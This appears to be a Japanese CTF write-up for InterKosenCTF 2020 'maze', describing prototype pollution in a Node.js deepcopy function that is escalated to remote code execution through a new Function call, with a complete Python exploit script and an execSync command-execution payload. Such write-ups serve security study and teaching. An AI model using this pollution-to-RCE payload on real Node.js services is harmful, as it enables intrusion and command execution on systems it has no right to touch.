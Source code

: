 +++
title = "InterKosenCTF 2020 - maze"
date = 2022-06-01

[taxonomies]
tags = ["CTF", "Writeup", "Web", "Prototype Pollution"]
+++

## TL;DR

- `new Array()`に対するオブジェクトのコピー時にPrototype Pollutionが出来る
- `const heap = this.heap || "<default>"`のような場所があるので`object.heap`を汚染する
- なんと`heap`をjavascript片として関数を作るという処理があるのでそこで任意コード実行をする

## Prerequisite

- Prototype Pollution

## Writeup

ソースコードは複数に分かれているので割愛。JSON形式で迷路を飛ばすとそれを解いてくれるという問題。

迷路を解くアルゴリズムの中で以前の状態から複数の状態に遷移する際に参照渡しだと困ることから、次のような`deepcopy`関数が存在する。

```javascript
function is_array(obj) {
    return obj !== null && typeof obj === 'object';
}

function __deepcopy_internal(result, array) {
    for (let index in array) {
        if (is_array(result[index]) && is_array(array[index])) {
            __deepcopy_internal(result[index], array[index]);
        } else {
            result[index] = array[index];
        }
    }
    return result;
}

/**
 * deepcopy: Clone an Array object
 */
function deepcopy(obj) {
    return __deepcopy_internal(new Array(), obj);
}
```

`__deepcopy()`がPrototype Pollutionができそうな実装になっている。`deepcopy()`を見ると第一引数が`new Array()`となっているので、`obj`側の`__proto__`に値を設定したらなんかいい感じのことが出来る予感がする。

実際に(開発者ツールのような)適当なjavascriptの実行環境で`Array()`のprototypeを辿ってみると次のようになっている。

```
>> let a = new Array();
<< undefined
>> a.__proto__
<< Array []
>> a.__proto__.__proto__
<< Object { … }
```

2回上へと辿ることで`Object`を得ることが出来る。ということで`a["__proto__"]["__proto__"]["<attr>"]`に値`v`を入れて`a`を`deepcopy`にぶち込むと、`Object.attr`に`v`が代入される。この`deepcopy`は迷路のクラスを定義している`maze.js`で用いられている。

```javascript

/**
 * Maze: State of maze used by MazeSolver
 *
 * args:
 *   F   : Maze (1:wall / 0:nothing)
 *   S   : Current position represented by [x, y]
 *   G   : Goal position represented by [x, y]
 *   move: Steps made so far
 */
class Maze {
    constructor(F, S, G, move='') {
        this.F = F;
        this.width = F[0].length;
        this.height = F.length;
        this.S = S;
        this.G = G;
        this.move = move;
    }
    /* f: Cost for A* search */
    get f() { return this.g + this.h; }
    /* g: Steps required so far */
    get g() { return this.move.length; }
    /* h: Heuristic function */
    get h() { return Math.abs(this.S[0] - this.G[0])
              + Math.abs(this.S[1] - this.G[1]); }
    /* hash: Unique value of this state */
    get hash() { return (this.S[0] << 8) | this.S[1]; }
    /* next: Generate possible next states */
    next() {
        var candidates = [];
        if (this.S[0] > 0 && this.F[this.S[1]][this.S[0]-1] == 0) {
            // Move left
            var P = deepcopy(this.S);
            P[0] -= 1;
            candidates.push(new Maze(this.F, P, this.G, this.move+'A'));
        }
        if (this.S[0] < this.width - 1 && this.F[this.S[1]][this.S[0]+1] == 0) {
            // Move right
            var P = deepcopy(this.S);
            P[0] += 1;
            candidates.push(new Maze(this.F, P, this.G, this.move+'D'));
        }
        if (this.S[1] > 0 && this.F[this.S[1]-1][this.S[0]] == 0) {
            // Move up
            var P = deepcopy(this.S);
            P[1] -= 1;
            candidates.push(new Maze(this.F, P, this.G, this.move+'W'));
        }
        if (this.S[1] < this.height - 1 && this.F[this.S[1]+1][this.S[0]] == 0) {
            // Move bottom
            var P = deepcopy(this.S);
            P[1] += 1;
            candidates.push(new Maze(this.F, P, this.G, this.move+'S'));
        }
        return candidates;
    }
}
```

迷路を移動する際に始点が変わることから、その時に`deepcopy`が用いられている。0と1のインデックスには数値が入っていないといけないが、それ以外のインデックス(キー)なら問題が無さそうなので、迷路の始点を指定する際に前述のようなPrototype Pollutionを引き起こすようなJSONを仕込む。

問題は、Prototype Pollutionが出来たところでどうやってフラグを得るかである。フラグを変数やcookieに入れたりしている様子は見られないのでロジックのバグを引き起こしてフラグを開示させるような攻撃では無い気がする。

そこでRCEを狙うが、実はこの問題の構成は`app.js`が`solve.js`を`execFile`によって子プロセスとして実行しているため、`solve.js`側でPrototype Pollutionを起こしても`app.js`側に影響は無く、加えてここ以外に`execFile`を使っている様子は見られないので`execFile`を使う方針は外す。

Prototype Pollution自体は簡単に見つかったが次が見つからず苦しんでいたが、`maze.js`を眺めていると、次のような記述が見られる。

```javascript
		const heap = this.heap || 'BinaryHeap';
		var q = new Function('c', 'return new this.'+heap+'({comparator:c});')
            .bind(pq)(comparator);
```

`Function`はコンストラクターの先頭に引数の文字列を取り、末尾に関数の中身を記述するjavascriptの文字列をとって、その関数を構成する。ということはここで作られた関数はどこかで使われるはずで、もし`heap`の値を任意に設定出来れば好きな処理を実行出来る可能性がある。

正常系であれば、`heap`という変数に入った値を用いてデフォルトは`"BinaryHeap"`という文字列が入り、ここはリクエスト時に指定した値を入れることが出来るが次のような制限がある。

```javascript
    // Validation
    if (req.body.heap
        && !['BinaryHeap', 'PairingHeap', 'SkewHeap'].includes(req.body.heap)) {
        req.body.heap = 'BinaryHeap'; // default
    }
```

逆に言えば、ここで値を設定しなければ、Prototype Pollutionで`Object.heap`を設定した時にそれが用いられる。よって、Prototype Pollutionでは`heap`メンバを汚染する。

これと上記の`Function`を利用していい感じの関数を構成する事を考える。`return new this.`と末尾の`{comparator:c});`が邪魔だが、いい感じに無視できるような構成にすると次のような関数を構成することになった。

```javascript
return this.BinaryHeap({comparator:c}), function() {console.log(process.mainModule.require('child_process').execSync('<RCE>').toString())}();//({comparator:c});
```

実はその後の`.bind(pq)(comparator)`の意味はよくわかっておらず、そもそもこうやって作られた`q`がどこで発火するのかもわからない。が、このような関数となるようなPrototype Pollutionを引き起こすと何故か知らないが`<RCE>`で指定したコマンドの実行結果が表示される。

## Code

```python
import requests
import json

HOST = "localhost"
PORT = 14002

cmd = "cat flag.txt"

maze = {
    "map": [
        [1, 1, 1, 1],
        [1, 0, 0, 1],
        [1, 0, 0, 1],
        [1, 1, 1, 1]
    ],
    "start": {
        "0": 1,
        "1": 1,
        "__proto__": {
            "__proto__": {
                "heap": "BinaryHeap({comparator:c}), function() {console.log(process.mainModule.require('child_process').execSync('" + cmd + "').toString())}();//"
            }
        }
    },
    "goal": (2, 2),
    "heap": None
}

r = requests.post(f"http://{HOST}:{PORT}/solve",
                  headers = {"Content-Type": "application/json"},
                  data = json.dumps(maze))
print(r.text)
```

## Flag

ローカルでやっただけ

## Resources

- [CTFのWebセキュリティにおけるJavaScript,nodejsまとめ（Prototype pollution, 難読化） - はまやんはまやんはまやん](https://blog.hamayanhamayan.com/entry/2021/12/18/132420): node.jsのワンライナーを拝借した
